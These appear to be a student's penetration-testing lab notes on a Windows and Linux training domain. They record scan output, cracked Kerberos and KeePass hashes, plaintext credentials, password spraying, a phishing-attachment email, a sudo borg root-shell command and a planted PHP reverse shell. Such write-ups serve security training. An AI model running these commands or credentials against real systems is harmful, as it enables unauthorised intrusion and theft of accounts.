Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: INTRANET, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:ab:4d:b3 (VMware)
| smb2-time: 
|   date: 2026-01-15T13:31:38
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

```

* 172.16.x.14
```
Nmap scan report for 172.16.94.14
Host is up (0.16s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-01-15T13:32:23+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RELIA
|   NetBIOS_Domain_Name: RELIA
|   NetBIOS_Computer_Name: WK01
|   DNS_Domain_Name: relia.com
|   DNS_Computer_Name: WK01.relia.com
|   DNS_Tree_Name: relia.com
|   Product_Version: 10.0.22000
|_  System_Time: 2026-01-15T13:31:36+00:00
| ssl-cert: Subject: commonName=WK01.relia.com
| Not valid before: 2026-01-14T12:53:08
|_Not valid after:  2026-07-16T12:53:08
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: WK01, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:ab:e3:92 (VMware)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-01-15T13:31:38
|_  start_date: N/A

```
* 172.16.x.15
```
Nmap scan report for 172.16.94.15
Host is up (0.015s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-01-15T13:32:23+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RELIA
|   NetBIOS_Domain_Name: RELIA
|   NetBIOS_Computer_Name: WK02
|   DNS_Domain_Name: relia.com
|   DNS_Computer_Name: WK02.relia.com
|   DNS_Tree_Name: relia.com
|   Product_Version: 10.0.22000
|_  System_Time: 2026-01-15T13:31:26+00:00
| ssl-cert: Subject: commonName=WK02.relia.com
| Not valid before: 2026-01-14T12:53:09
|_Not valid after:  2026-07-16T12:53:09
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 2.1.X (85%)
OS CPE: cpe:/o:ibm:zos:2.1
Aggressive OS guesses: IBM z/OS 2.1 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-01-15T13:31:38
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: -1s, deviation: 1s, median: 0s
```

* 172.16.x.19
```
Nmap scan report for 172.16.94.19
Host is up (0.0018s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 61:d7:77:83:c6:48:69:ca:42:35:0e:62:c3:30:b7:b4 (RSA)
|   256 c7:62:4a:de:a5:b4:f1:2a:5a:f3:a1:d8:d3:96:1b:8d (ECDSA)
|_  256 f2:94:b5:71:88:a1:f8:c5:d9:47:77:6b:07:ae:27:a0 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
* 172.16.x.20
```
Nmap scan report for 172.16.94.20
Host is up (0.014s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
| ssh-hostkey: 
|   2048 33:4a:77:87:5b:88:f4:f1:f3:bb:75:7b:ec:9e:21:31 (RSA)
|_  256 f6:79:92:a4:06:56:38:e3:ca:15:91:a8:dc:94:44:2c (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 2.1.X (85%)
OS CPE: cpe:/o:ibm:zos:2.1
Aggressive OS guesses: IBM z/OS 2.1 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

```
* 172.16.x.21
```
Nmap scan report for 172.16.94.21
Host is up (0.0022s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 2.1.X (85%)
OS CPE: cpe:/o:ibm:zos:2.1
Aggressive OS guesses: IBM z/OS 2.1 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: FILES, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:ab:3f:58 (VMware)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-01-15T13:31:26
|_  start_date: N/A
```
* 172.16.x.30
```
Nmap scan report for 172.16.94.30
Host is up (0.0017s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Anna Test Machine
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-01-15T13:32:23+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RELIA
|   NetBIOS_Domain_Name: RELIA
|   NetBIOS_Computer_Name: WEBBY
|   DNS_Domain_Name: relia.com
|   DNS_Computer_Name: WEBBY.relia.com
|   DNS_Tree_Name: relia.com
|   Product_Version: 10.0.20348
|_  System_Time: 2026-01-15T13:31:26+00:00
| ssl-cert: Subject: commonName=WEBBY.relia.com
| Not valid before: 2026-01-14T12:53:01
|_Not valid after:  2026-07-16T12:53:01
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-01-15T13:31:39
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Post-scan script results:
| clock-skew: 
|   -1s: 
|     172.16.94.15
|     172.16.94.30
|     172.16.94.7
|     172.16.94.14
|_    172.16.94.21
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 7 IP addresses (7 hosts up) scanned in 202.71 seconds
```

## 172.16.x.7
* 80 port

  

  

    * wpscan
    ```
    [+] WordPress version 6.0.3 identified (Insecure, released on 2022-10-17).
     | Found By: Rss Generator (Passive Detection)
     |  - http://intranet.relia.com/wordpress/feed/, <generator>https://wordpress.org/?v=6.0.3</generator>
     |  - http://intranet.relia.com/wordpress/comments/feed/, <generator>https://wordpress.org/?v=6.0.3</generator>

    [+] WordPress theme in use: twentytwentytwo
     | Location: http://intranet.relia.com/wordpress/wp-content/themes/twentytwentytwo/
     | Last Updated: 2025-12-03T00:00:00.000Z
     | Readme: http://intranet.relia.com/wordpress/wp-content/themes/twentytwentytwo/readme.txt
     | [!] The version is out of date, the latest version is 2.1
     | Style URL: http://intranet.relia.com/wordpress/wp-content/themes/twentytwentytwo/style.css?ver=1.2
     | Style Name: Twenty Twenty-Two
     | Style URI: https://wordpress.org/themes/twentytwentytwo/
     |Description: Built on a solidly designed foundation, Twenty Twenty-Two embraces the idea that everyone deserves a...
     | Author: the WordPress team
     | Author URI: https://wordpress.org/
     |
     | Found By: Css Style In Homepage (Passive Detection)
     | Confirmed By: Css Style In 404 Page (Passive Detection)
     |
     | Version: 1.2 (80% confidence)
     | Found By: Style (Passive Detection)
     |  - http://intranet.relia.com/wordpress/wp-content/themes/twentytwentytwo/style.css?ver=1.2, Match: 'Version: 1.2'
     
    [i] User(s) Identified:

    [+] admin
     | Found By: Rss Generator (Passive Detection)
     | Confirmed By:
     |  Wp Json Api (Aggressive Detection)
     |   - http://intranet.relia.com/wordpress/wp-json/wp/v2/users/?per_page=100&page=1
     |  Rss Generator (Aggressive Detection)
     |  Author Sitemap (Aggressive Detection)
     |   - http://intranet.relia.com/wordpress/wp-sitemap-users-1.xml
     |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
     |  Login Error Messages (Aggressive Detection)
    ```

      

    * wplogin
    `http://intranet.relia.com/wordpress/wp-login.php`

      
    
* AS-REP
`xfreerdp3 /u:michelle /p:NotMyPassword0k\? /v:172.16.x.7 /d:relia.com /dynamic-resolution`
```
PS C:\Users\michelle\Desktop> net user /domain

The request will be processed at a domain controller for domain relia.com.
User accounts for \\DC02.relia.com
-------------------------------------------------------------------------------
Administrator            andrea                   anna
brad                     dan                      Guest
iis_service              internaladmin            jenny
jim                      krbtgt                   larry
maildmz                  michelle                 milana
mountuser

The command completed successfully. 
```

* Privilege escalation
`net user dave2 password123$ /add`
`net localgroup administrators dave2 /add`

  

  

  

  

  

  

* Cred search

  

```
┌──(kali㉿kali)-[~/Desktop/Pen200/Relia]
└─$ nxc rdp 172.16.158.0/24 -u andrea -p PasswordPassword_6 
RDP         172.16.158.14   3389   WK01             [*] Windows 10 or Windows Server 2016 Build 22000 (name:WK01) (domain:relia.com) (nla:True)
RDP         172.16.158.6    3389   DC02             [*] Windows 10 or Windows Server 2016 Build 20348 (name:DC02) (domain:relia.com) (nla:True)
RDP         172.16.158.30   3389   WEBBY            [*] Windows 10 or Windows Server 2016 Build 20348 (name:WEBBY) (domain:relia.com) (nla:True)
RDP         172.16.158.15   3389   WK02             [*] Windows 10 or Windows Server 2016 Build 22000 (name:WK02) (domain:relia.com) (nla:True)
RDP         172.16.158.254  3389   LOGIN            [*] Windows 10 or Windows Server 2016 Build 20348 (name:LOGIN) (domain:relia.com) (nla:True)
RDP         172.16.158.14   3389   WK01             [+] relia.com\andrea:PasswordPassword_6 
RDP         172.16.158.6    3389   DC02             [+] relia.com\andrea:PasswordPassword_6 
RDP         172.16.158.7    3389   INTRANET         [*] Windows 10 or Windows Server 2016 Build 20348 (name:INTRANET) (domain:relia.com) (nla:False)
RDP         172.16.158.30   3389   WEBBY            [+] relia.com\andrea:PasswordPassword_6 
RDP         172.16.158.254  3389   LOGIN            [+] relia.com\andrea:PasswordPassword_6 
RDP         172.16.158.15   3389   WK02             [+] relia.com\andrea:PasswordPassword_6 (Pwn3d!)
RDP         172.16.158.7    3389   INTRANET         [+] relia.com\andrea:PasswordPassword_6 
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```


## 172.16.x.14
* mail
`swaks --from maildmz@relia.com --to jim@relia.com --server 192.168.111.189 --auth LOGIN --auth-user maildmz@relia.com --header "88" --body "hello" --attach @config.Library-ms`
`DPuBT9tGCBrTbR`

  

  

```powershell
PS C:\Users\jim\Documents> ipconfig /all
ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : WK01
   Primary Dns Suffix  . . . . . . . : relia.com
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : relia.com

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-AB-01-A3
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 172.16.206.14(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.206.254
   DNS Servers . . . . . . . . . . . : 172.16.206.6
   NetBIOS over Tcpip. . . . . . . . : Enabled

```

* Privilege escalation
using password found 172.16.x.21 smb share

* Cred search
    1. `Castello1!`

       
    
    2. `kdbx`
    ```
    dmzadmin    SlimGodhoodMope
    jim@relia.com    Castello1!
    ```
    ```powershell
    PS C:\Users\jim\Documents> Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
    Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

    displayname                                                       
    -----------                                                       
                                                                  
    KeePass Password Safe 2.52                                        
    Microsoft Edge                                                    
    Microsoft Edge Update                                             
    Microsoft Edge WebView2 Runtime                                   
                                                                  
    Microsoft Visual C++ 2015-2019 Redistributable (x86) - 14.28.29913
    Microsoft Visual C++ 2019 X86 Additional Runtime - 14.28.29913    
    Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.28.29913       
    Microsoft Visual C++ 2015-2019 Redistributable (x64) - 14.28.29913
    ```
    ```powershell
    PS C:\Users\jim\Documents> Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
    Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue


    Directory: C:\Users\jim\Documents


    Mode                 LastWriteTime         Length Name                                                                 
    ----                 -------------         ------ ----                                                                 
    -a----        10/27/2022   1:57 AM           1998 Database.kdbx 
    ```
    ```bash
    ┌──(kali㉿kali)-[~/Desktop/Pen200/Relia]
    └─$ john --wordlist=/usr/share/wordlists/rockyou.txt 191Database.hash
    Created directory: /home/kali/.john
    Using default input encoding: UTF-8
    Loaded 1 password hash (KeePass [SHA256 AES 32/64])
    Cost 1 (iteration count) is 60 for all loaded hashes
    Cost 2 (version) is 2 for all loaded hashes
    Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
    Will run 8 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    mercedes1        (Database)     
    1g 0:00:00:00 DONE (2026-01-08 10:11) 8.333g/s 42400p/s 42400c/s 42400C/s bambino..elsalvador
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed. 
    ```

       

    * AS-REP Roasting
    ```
    $krb5asrep$23$michelle@RELIA.COM:8404c5bbe0a90b096cf8d6fba86528d4$7b5786407dc8aae8775da14957c11ffef58616207d16e9316bb569bc082cc8bb5aa646ed09abb586662ae496dc40bcc2e156bec419ed8a76e79309cc03c81e9fdcf3c6d710253b93a0690edcc5f07f8f13b30b9aa44e50c73e22c98593cd3ebd4cf9b77e8dd6aa578f8c3c8b33acd817e6c5de69e8e05782cadd802e6fdd993ba628d41168fc8a98728bd189aab71911fb836a08b29f38abc4367138e9202f0b0c53de477bb462c325ac7265be7aa5a5e28af7bb30ca25cd033b12ac6ae4a055ce09725055ca51351536f8b1e3ade43ea71396f03dd0d5091270c8fbd1b9679d56e5146ce7ed:NotMyPassword0k?
                                                          
    Session..........: hashcat
    Status...........: Cracked
    Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
    Hash.Target......: $krb5asrep$23$michelle@RELIA.COM:8404c5bbe0a90b096c...6ce7ed
    Time.Started.....: Sat Jan 17 10:36:46 2026, (3 mins, 7 secs)
    Time.Estimated...: Sat Jan 17 10:39:53 2026, (0 secs)
	Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
	Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
	Guess.Mod........: Rules (/usr/share/hashcat/rules/best66.rule)
	Guess.Queue......: 1/1 (100.00%)
	Speed.#01........:  3839.1 kH/s (8.35ms) @ Accel:128 Loops:64 Thr:1 Vec:8
	Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
	Progress.........: 711319552/946729410 (75.13%)
	Rejected.........: 0/711319552 (0.00%)
	Restore.Point....: 10776576/14344385 (75.13%)
	Restore.Sub.#01..: Salt:0 Amplifier:0-64 Iteration:0-64
	Candidate.Engine.: Device Generator
	Candidates.#01...: Nov2599 -> y999
	Hardware.Mon.#01.: Util: 82%
	
	Started: Sat Jan 17 10:36:35 2026
	Stopped: Sat Jan 17 10:39:54 2026
    ```
    ```
    ┌──(kali㉿kali)-[~/Desktop/Pen200/Relia]
	└─$ nxc rdp 172.16.158.0/24 -u michelle -p NotMyPassword0k\?
	RDP         172.16.158.15   3389   WK02             [*] Windows 10 or Windows Server 2016 Build 22000 (name:WK02) (domain:relia.com) (nla:True)
	RDP         172.16.158.15   3389   WK02             [+] relia.com\michelle:NotMyPassword0k? 
	RDP         172.16.158.14   3389   WK01             [*] Windows 10 or Windows Server 2016 Build 22000 (name:WK01) (domain:relia.com) (nla:True)
	RDP         172.16.158.254  3389   LOGIN            [*] Windows 10 or Windows Server 2016 Build 20348 (name:LOGIN) (domain:relia.com) (nla:True)
	RDP         172.16.158.6    3389   DC02             [*] Windows 10 or Windows Server 2016 Build 20348 (name:DC02) (domain:relia.com) (nla:True)
	RDP         172.16.158.30   3389   WEBBY            [*] Windows 10 or Windows Server 2016 Build 20348 (name:WEBBY) (domain:relia.com) (nla:True)
	RDP         172.16.158.14   3389   WK01             [+] relia.com\michelle:NotMyPassword0k? 
	RDP         172.16.158.254  3389   LOGIN            [+] relia.com\michelle:NotMyPassword0k? 
	RDP         172.16.158.6    3389   DC02             [+] relia.com\michelle:NotMyPassword0k? 
	RDP         172.16.158.7    3389   INTRANET         [*] Windows 10 or Windows Server 2016 Build 20348 (name:INTRANET) (domain:relia.com) (nla:False)
	RDP         172.16.158.30   3389   WEBBY            [+] relia.com\michelle:NotMyPassword0k? 
	RDP         172.16.158.7    3389   INTRANET         [+] relia.com\michelle:NotMyPassword0k? (Pwn3d!)
	Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
	                                                                                                                                                                                  
	┌──(kali㉿kali)-[~/Desktop/Pen200/Relia]
	└─$ nxc smb 172.16.158.0/24 -u michelle -p NotMyPassword0k\?
	SMB         172.16.158.5    445    MAIL             [*] Windows Server 2022 Build 20348 x64 (name:MAIL) (domain:relia.com) (signing:False) (SMBv1:False) 
	SMB         172.16.158.6    445    DC02             [*] Windows Server 2022 Build 20348 x64 (name:DC02) (domain:relia.com) (signing:True) (SMBv1:False) 
	SMB         172.16.158.14   445    WK01             [*] Windows 11 Build 22000 x64 (name:WK01) (domain:relia.com) (signing:False) (SMBv1:False) 
	SMB         172.16.158.15   445    WK02             [*] Windows 11 Build 22000 x64 (name:WK02) (domain:relia.com) (signing:False) (SMBv1:False) 
	SMB         172.16.158.5    445    MAIL             [+] relia.com\michelle:NotMyPassword0k? 
	SMB         172.16.158.21   445    FILES            [*] Windows Server 2022 Build 20348 x64 (name:FILES) (domain:relia.com) (signing:False) (SMBv1:False) 
	SMB         172.16.158.30   445    WEBBY            [*] Windows Server 2022 Build 20348 x64 (name:WEBBY) (domain:relia.com) (signing:False) (SMBv1:False) 
	SMB         172.16.158.7    445    INTRANET         [*] Windows Server 2022 Build 20348 x64 (name:INTRANET) (domain:relia.com) (signing:False) (SMBv1:False) 
	SMB         172.16.158.254  445    LOGIN            [*] Windows Server 2022 Build 20348 x64 (name:LOGIN) (domain:relia.com) (signing:False) (SMBv1:False) 
	SMB         172.16.158.6    445    DC02             [+] relia.com\michelle:NotMyPassword0k? 
	SMB         172.16.158.14   445    WK01             [+] relia.com\michelle:NotMyPassword0k? 
	SMB         172.16.158.15   445    WK02             [+] relia.com\michelle:NotMyPassword0k? 
	SMB         172.16.158.21   445    FILES            [+] relia.com\michelle:NotMyPassword0k? 
	SMB         172.16.158.30   445    WEBBY            [+] relia.com\michelle:NotMyPassword0k? 
	SMB         172.16.158.7    445    INTRANET         [+] relia.com\michelle:NotMyPassword0k? 
	SMB         172.16.158.254  445    LOGIN            [+] relia.com\michelle:NotMyPassword0k? 
	Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
    ```
    
    
## 172.16.x.15
`xfreerdp3 /u:andrea /p:PasswordPassword_6 /v:172.16.x.15 /dynamic-resolution`

* Privilege escalation
    * system os exploit(need visual studio)

      

      

      

    * writeble file

      

      

      

      

* cred search
    1. hash

       

       

    2. kbdx
    ```
    sarah    placeholder
    ```

       

       

       

       

## 172.16.x.19
`ssh sarah@172.16.x.19 -i innerSSH.PRIV`
* Privilege escalation
    1. sudo version
    ```bash
    ╔══════════╣ Sudo version
    ╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-version
    Sudo version 1.8.31
    ```
    ```bash
    sarah@backup:~$ make

    Command 'make' not found, but can be installed with:

    apt install make        # version 4.2.1-1.2, or
    apt install make-guile  # version 4.2.1-1.2

    Ask your administrator to install one of them.
    ```
    
    2. sudoer
    `sudo borg extract @:/::: --rsh "/bin/bash -c '/bin/bash </dev/tty >/dev/tty 2>/dev/tty'"`
    ```bash
    ╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
	╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid                                                                                   
	Matching Defaults entries for sarah on backup:                                                                                                                                    
	env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	
	User sarah may run the following commands on backup:
	    (ALL) NOPASSWD: /usr/bin/borg list *
	    (ALL) NOPASSWD: /usr/bin/borg extract *
	    (ALL) NOPASSWD: /usr/bin/borg mount *
	Sudoers file: /etc/sudoers.d/sarah.bak. is readable
	sarah ALL=(ALL) NOPASSWD:/usr/bin/borg list *
	sarah ALL=(ALL) NOPASSWD:/usr/bin/borg extract *
	sarah ALL=(ALL) NOPASSWD:/usr/bin/borg mount *
    ```

       

    ```bash
    sarah@backup:~$ sudo borg extract @:/::: --rsh "/bin/bash -c '/bin/bash </dev/tty >/dev/tty 2>/dev/tty'"
    root@backup:/home/sarah# 
    root@backup:/home/sarah# 
    root@backup:/home/sarah# id
    uid=0(root) gid=0(root) groups=0(root)
    ```
    
* cred search
    1. /root
    ```
    root@backup:/# ls /root
    config.json  createbackup.sh  proof.txt  rsync.sh  snap
    ```
    ```
    root@backup:~# cat config.json
    {
        "user": "amy",
        "pass": "0814b6b7f0de51ecf54ca5b6e6e612bf"
    }
    ```
    ```
    root@backup:~# cat createbackup.sh
	#!/bin/bash
	
	# Trim the USB backups so we only have the past 20 or so.
	USB_BACKUPS=`BORG_PASSPHRASE="xinyVzoH2AnJpRK9sfMgBA" borg list --json /opt/borgbackup/ | jq '.archives | sort_by(.time) | reverse[] | select(.name | startswith("usb"))' | jq -s`
	
	EXTRA_BACKUPS=`echo $USB_BACKUPS | jq -r '. | .[21:] | .[].name'`
	for i in ${EXTRA_BACKUPS[@]}
	do
	    /bin/sh -c "BORG_PASSPHRASE='xinyVzoH2AnJpRK9sfMgBA' borg delete /opt/borgbackup::$i"
	done
	
	# Back up every 15 :)
	for i in 0 1 2
	do
	    TIME=`date +%s`
	    /bin/sh -c "BORG_PASSPHRASE='xinyVzoH2AnJpRK9sfMgBA' borg create /opt/borgbackup::usb_$TIME /media/usb0" 
	    sleep 15
	done
    ```
    ```
    root@backup:~# cat rsync.sh
    sshpass -p "Rb9kNokjDsjYyH" rsync andrew@172.16.10.20:/etc/ /opt/backup/etc/
    ```
    ```
    ┌──(kali㉿kali)-[~/Desktop/Pen200/Relia]
	└─$ nxc ssh 172.16.91.0/24 -u andrew -p Rb9kNokjDsjYyH
	SSH         172.16.91.19    22     172.16.91.19     [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.5
	SSH         172.16.91.19    22     172.16.91.19     [-] andrew:Rb9kNokjDsjYyH
	SSH         172.16.91.20    22     172.16.91.20     [*] SSH-2.0-OpenSSH_7.9 FreeBSD-20200214
	SSH         172.16.91.20    22     172.16.91.20     [+] andrew:Rb9kNokjDsjYyH  Linux - Shell access!
	Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
    ```
    
    
    2. /opt/borgbackup
    ```
    root@backup:~# ll /opt/borgbackup
	total 76
	drwxr-xr-x 3 root root  4096 Jan 21 15:10 ./
	drwxr-xr-x 3 root root  4096 Oct 17  2022 ../
	-rw------- 1 root root   700 Oct 17  2022 config
	drwx------ 8 root root  4096 Jan 21 14:50 data/
	-rw------- 1 root root    60 Jan 21 15:10 hints.5501
	-rw------- 1 root root 41258 Jan 21 15:10 index.5501
	-rw------- 1 root root   190 Jan 21 15:10 integrity.5501
	-rw------- 1 root root    16 Jan 21 15:10 nonce
	-rw------- 1 root root    73 Oct 17  2022 README
    ```
    ```
    root@backup:~# cat /opt/borgbackup/config
	[repository]
	version = 1
	segments_per_dir = 1000
	max_segment_size = 524288000
	append_only = 0
	storage_quota = 0
	additional_free_space = 0
	id = cc8200b6973966647a10a322d65e31c1c258f9eb6e1d4fbe919dd5cdf31aa30c
	key = hqlhbGdvcml0aG2mc2hhMjU2pGRhdGHaAN7uHZA0+1HXsZiCOtpEZOydj01bKwRd3j5cvM
	        2HojcFPr0irZk2JR3NtUqdMDTp8mNQJpgIdpzwAG3ZGOQ/zze7rZ29CPJ7ywn25wg/6EDM
	        8lcWQ5ON+kpgk+EWH9L1q4pXHI8+Ty4AHhLmtmLHbDZ5x6ehao4uB3DCZi0zZZt8T2wHva
	        y5UKlYL6HwaOx1YEBAvWM2AyL3j+00nMgqbq/SeaIW7DX5yU+gPj0L+2LMEJiM1tglbBeF
	        YElh3JytchbN5eUpV1JEH2uS5FUGeKlaFMuXPsbKUqr/wxQT9nOkaGFzaNoAIBhz0anvPU
	        395xNLwzguJjmKd1M2/U7JfjUAWMRfWDWzqml0ZXJhdGlvbnPOAAGGoKRzYWx02gAgAU6e
	        LQg4gHSQnZFZdLobO94BnfvljAVuGYWulH7BSuSndmVyc2lvbgE=
    ```
    
    
## 172.16.x.20
`ssh andrew@172.16.142.20`
`Rb9kNokjDsjYyH`

* Privilege escalation
    1. Doas

       

	```
	╔══════════╣ Doas Configuration
	╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#doas                                                                                            
	Doas binary found at: /usr/local/bin/doas                                                                                                                                         
	Doas binary has SUID bit set!
	-rwsr-xr-x  1 root  wheel  29504 Oct  6  2022 /usr/local/bin/doas
	
	Checking doas.conf files:
	Found: /usr/local/bin/../etc/doas.conf
	# Sample file for doas
	# Please see doas.conf manual page for information on setting
	# up a doas.conf file.
	
	# Permit members of the wheel group to perform actions as root.
	permit nopass :wheel
	
	# Permit user alice to run commands a root user.
	# permit alice as root
	
	# Permit user bob to run programs as root, maintaining
	# environment variables. Useful for GUI applications.
	## permit keepenv bob as root
	
	# Permit user cindy to run only the pkg package manager as root
	# to perform package updates and upgrades.
	## permit cindy as root cmd pkg args update
	## permit cindy as root cmd pkg args upgrade
	
	# Allow david to run id command as root without logging it
	# permit nolog david as root cmd id
	
	permit nopass mandrew as root cmd service args apache24 onestart
	```
    ```
    $ /usr/local/bin/doas service apache24 onestart
    Performing sanity check on apache24 configuration:
    AH00558: httpd: Could not reliably determine the server's fully qualified domain name, using 127.0.0.1. Set the    'ServerName' directive globally to suppress this message
    Syntax OK
    Starting apache24.
    AH00558: httpd: Could not reliably determine the server's fully qualified domain name, using 127.0.0.1. Set the    'ServerName' directive globally to suppress this message
    ```
    ```
    ╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 200)
	╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#writable-files                                                                                   
	/tmp                                                                                                                                                                               
	/tmp/.ICE-unix
	/tmp/.X11-unix
	/tmp/.XIM-unix
	/tmp/.font-unix
	/tmp/test
	/usr/home/andrew
	/usr/home/andrew/.bash_history
	/usr/home/andrew/.cshrc
	/usr/home/andrew/.history
	/usr/home/andrew/.login
	/usr/home/andrew/.login_conf
	#)You_can_write_even_more_files_inside_last_directory
	
	/usr/local/www/apache24/data/phpMyAdmin/tmp
	/var/mail/andrew
	/var/tmp
	/var/tmp/vi.recover
    ```
    `http://172.16.142.20/phpMyAdmin/tmp/rev.php`

       

* cred search
```
root@production:/home # cd mountuser/
root@production:/home/mountuser # 
root@production:/home/mountuser # 
root@production:/home/mountuser # ll
total 32
-rw-r--r--  1 mountuser  mountuser  1054 Oct 31  2022 .cshrc
-rw-------  1 mountuser  mountuser   266 Nov  1  2022 .history
-rw-r--r--  1 mountuser  mountuser   392 Oct 31  2022 .login
-rw-r--r--  1 mountuser  mountuser   163 Oct 31  2022 .login_conf
-rw-------  1 mountuser  mountuser   379 Oct 31  2022 .mail_aliases
-rw-r--r--  1 mountuser  mountuser   339 Nov  1  2022 .mailrc
-rw-r--r--  1 mountuser  mountuser   954 Nov  1  2022 .profile
